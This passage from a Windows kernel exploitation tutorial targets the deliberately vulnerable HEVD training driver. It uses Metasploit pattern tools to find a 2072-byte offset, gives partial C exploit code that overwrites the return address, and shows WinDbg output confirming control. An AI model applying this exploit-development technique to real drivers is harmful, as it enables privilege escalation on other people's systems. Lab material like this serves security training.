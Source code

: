 # Exploitation
Now that we've verified we control both arguments to the vulnerable function unconditionally we can move forward with gaining control of the return address.

## Gaining Control of the Return Address
In order to figure out where we gain control we can use a number of methods such as using a cylic pattern. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ msf-pattern_create -l 2100

┌──(kali㉿kali)-[~/Desktop]
└─$ msf-pattern_offset -l 2100 -q 4332724331724330 
[*] Exact match at offset 2072
```

Based on the above we see that we gain control of the return address at 2072 bytes. We'll update our code accordingly.

```C
void exploit()
{
    HANDLE DriverHandle;
    DWORD  OldProtect;
    char   buffer[2072 + 8] = {0};
    const size_t offset = 2072;

    printf("[*] Preparing exploit buffer!\n");
    /* Fill exploit buffer with As. */
    memset(buffer, 0x41, sizeof(buffer));
    
    memcpy(&buffer[offset], "BBBBBBBB", 8);
```

We can run our POC again and verify that we gain control of the return address as shown in the below.

```
0: kd> bp HEVD!TriggerBufferOverflowStack+0xca

0: kd> g
Breakpoint 0 hit
HEVD!TriggerBufferOverflowStack+0xca:
fffff80e`06fb667e e83dabf7ff      call    HEVD!memcpy (fffff80e`06f311c0)

1: kd> pt
HEVD!TriggerBufferOverflowStack+0x10b:
fffff80e`06fb66bf c3              ret

1: kd> k
 # Child-SP          RetAddr               Call Site
00 ffff8e81`165f67b8 42424242`42424242     HEVD!TriggerBufferOverflowStack+0x10b
01 ffff8e81`165f67c0 00000000`00000003     0x42424242`42424242
```


[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.